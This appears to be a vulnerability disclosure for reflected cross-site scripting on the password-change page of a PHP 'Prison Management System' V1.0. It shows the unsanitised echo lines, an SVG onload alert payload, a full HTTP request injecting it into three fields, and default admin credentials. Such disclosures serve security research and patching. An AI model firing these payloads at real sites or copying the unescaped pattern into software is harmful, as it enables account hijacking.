

# Prison Management System
## XSS on `/Admin/changepassword.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Admin/login.php
admin
admin123
```

### Affected Page:

```
/Admin/changepassword.php
```

The parameter  `txtold_password`、`txtnew_password` and `txtconfirm_password` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Admin/changepassword.php
182 <input type="text" class="form-control" name="txtold_password" id="exampleInputEmail1" size="77" value="<?php if (isset($_POST['txtold_password']))?><?php echo $_POST['txtold_password']; ?>" >
186 <input type="password" class="form-control" name="txtnew_password" id="exampleInputEmail1" size="77" value="<?php if (isset($_POST['txtnew_password']))?><?php echo $_POST['txtnew_password']; ?>" >
190 <input type="password" class="form-control" name="txtconfirm_password" id="exampleInputPassword1" size="77" value="<?php if (isset($_POST['txtconfirm_password']))?><?php echo $_POST['txtconfirm_password']; ?>" >
```

### Proof of Concept:

Payload:

```
"><svg/onload=alert``>
```

Burp Request:

```
POST /Admin/changepassword.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 141
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Admin/changepassword.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=re6pj5dm375a34vsuggjn5p4j8
Connection: close

txtold_password=1"><svg/onload=alert`111`>&txtnew_password=2"><svg/onload=alert`222`>&txtconfirm_password=3"><svg/onload=alert`333`>&btnsave=
```

### Screenshot




